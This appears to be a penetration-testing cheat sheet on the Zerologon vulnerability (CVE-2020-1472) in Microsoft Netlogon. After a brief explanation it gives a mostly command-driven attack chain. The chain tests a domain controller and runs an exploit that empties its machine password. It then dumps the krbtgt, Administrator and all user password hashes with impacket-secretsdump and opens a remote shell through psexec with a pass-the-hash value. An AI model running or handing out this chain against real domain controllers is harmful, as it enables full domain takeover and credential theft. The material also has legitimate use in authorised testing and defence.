 # zerologon -  CVE-2020-1472

## Theory

Zerologon is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers. Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

More: [https://www.trendmicro.com/en\_in/what-is/zerologon.html](https://www.trendmicro.com/en\_in/what-is/zerologon.html)



***

## Practical

### Test for ZeroLogon Vulenrability

```
git clone https://github.com/SecuraBV/CVE-2020-1472.git

cd CVE-2020-1472

pip3 install -r requirements.txt

./zerologon_tester.py EXAMPLE-DC 1.2.3.4
```

### Exploit ZeroLogon Vulenrability

```
git clone https://github.com/risksense/zerologon.git

pip3 install -r requirements.txt

python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

### Dump Password Hashes

```
# Dump krbtgt user hash
sudo impacket-secretsdump -no-pass 'DC-ZEROLOGON$'@212.129.28.18 -just-dc-user krbtgt

# Dump Administrator user hash
sudo impacket-secretsdump -no-pass 'DC-ZEROLOGON$'@212.129.28.18 -just-dc-user Administrator

# Dump All users hashes
sudo impacket-secretsdump -no-pass 'DC-ZEROLOGON$'@212.129.28.18
```

### Remote Shell

```
./psexec.py /Administrator@212.129.28.18 -hashes aad3b435b51404eeaad3b435b51404ee:777b1935ff37faba2b2c299288b0693b
```



***

## REFERENCES

* [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
* [https://github.com/thatonesecguy/zerologon-CVE-2020-1472](https://github.com/thatonesecguy/zerologon-CVE-2020-1472)
* [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)
* [https://www.trendmicro.com/en\_in/what-is/zerologon.html](https://www.trendmicro.com/en\_in/what-is/zerologon.html)
* [https://wadcoms.github.io/wadcoms/Impacket-PsExec/](https://wadcoms.github.io/wadcoms/Impacket-PsExec/)
* [https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)
* [https://wadcoms.github.io/wadcoms/Impacket-WMIExec/](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/)
